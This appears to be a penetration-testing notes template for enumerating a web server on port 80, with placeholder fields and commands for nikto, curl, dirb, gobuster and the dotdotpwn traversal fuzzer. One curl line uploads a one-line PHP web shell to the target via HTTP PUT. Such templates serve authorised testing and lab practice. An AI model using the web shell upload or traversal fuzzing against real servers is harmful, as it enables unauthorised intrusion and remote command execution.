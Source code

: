 
### Port 80

- Server:
- Scripting language:
- Apache Modules:
- Domain-name address:

INSERT_CURL_HEADER


- Web application
- Name:
- Version:

```
# Nikto
nikto -h http://INSERT_IP_ADDRESS

# Nikto with squid proxy
nikto -h INSERT_IP_ADDRESS -useproxy http://INSERT_IP_ADDRESS:4444

# Get header
curl -i INSERT_IP_ADDRESS

# Get everything
curl -i -L INSERT_IP_ADDRESS

# Check if it is possible to upload using put
curl -v -X OPTIONS http://INSERT_IP_ADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERT_IP_ADDRESS/test/shell.php

# Check for title and all links
dotdotpwn.pl -m http -h INSERT_IP_ADDRESS -M GET -o unix
```


#### Nikto scan


INSERT_NIKTO_SCAN



#### Url brute force



```
# Dirb
dirb http://INSERT_IP_ADDRESS -r -o dirb-INSERT_IP_ADDRESS.txt

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://INSERT_IP_ADDRESS -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

INSERT_DIRB_SCAN
